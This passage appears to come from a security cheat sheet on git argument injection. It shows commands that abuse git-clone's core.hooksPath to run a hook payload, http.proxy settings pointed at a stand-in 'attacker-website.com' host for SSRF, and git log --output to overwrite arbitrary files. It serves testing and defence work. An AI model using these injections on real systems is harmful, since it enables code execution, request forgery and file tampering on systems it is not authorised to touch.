 To execute the payload, run the git-clone:

```bash
$ git clone -c core.hooksPath=hooks "<REPO>"
```

References:
- [git-config docs: core.hooksPath](https://git-scm.com/docs/git-config#Documentation/git-config.txt-corehooksPath)
- [githooks docs](https://git-scm.com/docs/githooks)

#### http.proxy and http.&lt;URL&gt;.proxy

`http.proxy` or `http.<URL>.proxy` override the HTTP proxy. You can use this to get SSRF:

```bash
$ git clone -c http.proxy=http://attacker-website.com -- "<REPO>" target_directory
$ git clone -c http.http://website.com/.proxy=http://attacker-website.com -- "<REPO>" target_directory
```

Pay attention to other `http.*` configs and `remote.<name>.proxy`, they can help to increase the impact.

References:
- [Report: Injection of `http.<url>.*` git config settings leading to SSRF](https://hackerone.com/reports/855276)
- [git-config docs: http.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-httpproxy)
- [git-config docs: remote.<name>.proxy](https://git-scm.com/docs/git-config#Documentation/git-config.txt-remoteltnamegtproxy)

### &lt;directory&gt;

git-clone allows you to specify a new directory to clone into. Cloning into an existing directory is only allowed if the directory is empty. You can use this to write a repo outside a default folder.

```bash
$ git clone -- "<REPO>" target_directory
```

## git-log

{% embed url="https://git-scm.com/docs/git-log" %}

### --output

`output` definea a specific file to output instead of stdout. You can use this to rewrite arbitrary files.

```bash
$ git log --output=/tmp/arbitrary_file
$ cat /tmp/arbitrary_file
commit c79538fb19b1d9d21bf26e9ad30fdeb90be1eaf0
Author: User <user@local>
Date:   Fri Aug 29 00:00:00 2021 +0000

    Controlled content
```
